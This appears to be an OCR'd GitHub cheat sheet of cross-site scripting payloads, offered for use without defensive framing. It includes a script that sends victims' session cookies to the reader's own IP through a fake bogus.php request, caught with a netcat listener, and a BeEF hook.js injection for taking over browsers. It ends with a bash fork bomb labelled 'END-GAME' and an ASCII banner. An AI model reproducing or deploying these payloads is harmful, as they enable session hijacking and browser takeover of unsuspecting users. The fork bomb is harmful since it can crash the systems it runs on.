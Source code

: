 ```html

<Script>alert(document.cookie)</Script>  <!-- # it will PopUp The document.cookie is a File TO Store 'session id' -->

<Script>new Image().src="http://<IP>/bogus.php?output="+document.cookie;</Script>  <!-- # <IP> = Enter The IP_Address Of Your Systen
                                                                                   # Here : ' bogus.php?output="+document.cookie; ' Will Send The Cookie On Our_Systen
                                                                                   # NOTE : Start Leasioner On Your System
                                                                                   # To Start Leasioner Type Below Command On Your Terminal
                                                                                   # sudo netcat -lvp 80 - Command of Netcat Leasioner
                                                                                   # -l is lesner
                                                                                   # -v is verbost
                                                                                   # -p is port
                                                                                   # 80 is a port of HTTP  -->
```
```html
<!---BEFF_BROWSERS--->

<!--   # Open BEEF_Browser -->
<!--   # Open Target Xss Vulnrabule Site -->
   
<Script src="http://127.0.0.1:30000/hook.js"></Script>  <!--  # Here : 127.0.0.1 is a localhost -->
                                                        <!--  # rePlaace 127.0.0.1 ==> Your IP_Adress -->
```
```html
<!---Video-Tags--->
<video src="" controls=""></video>                            <!--  #video tag  -->
<video src="" poster="thumbnail" controls=""></video>         <!--  # video tag with thumbnail  -->
<video src="" autoplay controls=""></video>                   <!--  # video tag with autoplay  -->
<video src="" loop controls=""></video>                       <!--  # video tag with loop  -->
```
---
> # __END-GAME__
```bash
:(){ :|: & };:
```
---

> # ___My Banner___

```
╔♫═╗╔╗ ♥   
╚╗╔╝║║♫═╦╦╦╔╗
╔╝╚╗♫╚╣║║║║╔╣
╚═♫╝╚═╩═╩♫╩═╝


\ \

  \ \                     /  \

    \ \                 / / \ \                 / /

      \ \             / /     \ \             / /

        \ \         / /         \ \         / /

          \ \     / /             \ \     / /

```